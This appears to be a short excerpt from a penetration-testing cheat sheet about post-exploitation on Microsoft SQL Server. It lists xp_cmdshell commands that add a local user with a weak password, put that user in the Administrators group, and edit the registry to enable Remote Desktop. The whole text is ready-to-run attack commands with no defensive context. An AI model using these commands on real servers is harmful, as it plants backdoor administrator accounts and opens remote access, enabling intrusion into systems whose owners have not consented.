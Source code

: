 Try to add user
``` sql
xp_cmdshell 'net user testuser password /add'
go
xp_cmdshell 'net localgroup Administrators testuser /add'
go
```

Try to enable remote desktop
``` sql
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
go
```

